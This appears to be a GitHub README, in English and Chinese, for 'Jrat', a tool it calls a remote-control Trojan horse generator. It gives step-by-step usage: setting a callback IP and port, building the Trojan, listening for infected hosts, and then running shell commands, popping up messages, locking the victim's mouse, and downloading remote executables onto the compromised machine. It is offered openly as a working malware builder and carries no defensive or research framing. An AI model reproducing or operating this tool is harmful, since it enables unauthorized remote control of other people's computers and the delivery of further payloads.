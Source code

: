 # Jrat
Jrat is a remote control Trojan horse generator.
使用方法：
在“Jrat>>”阶段可用的命令有：lhost（上线IP），lport（上线端口），port（监听端口），save（生成木马），run（开始监听）
例如：Jrat>> lhost 127.0.0.1    Jrat>> lport 8808    Jrat>> port 8808    Jrat>> save    Jrat>> run
以上步骤是生成一个连接到127.0.0.1，端口为8808的木马，然后开始监听8808端口并等待木马上线
木马上线后，程序来到第二阶段“Command>>”阶段，此阶段中可用的命令有：shell+cmd命令，msgbox+提示信息，clip+true/false（锁定/解锁鼠标），download+link+name（远程下载文件）
例如：Command>> shell start C:    Command>> msgbox Hello World!    Command>> clip true    Command>> download http://baidu.com/1.exe 1.exe
上述命令时，先打开C盘，然后弹出一个对话窗口，显示“Hello World!”，接着鼠标被锁住，最后远程下载一个链接为“http://baidu.com/1.exe”的文件
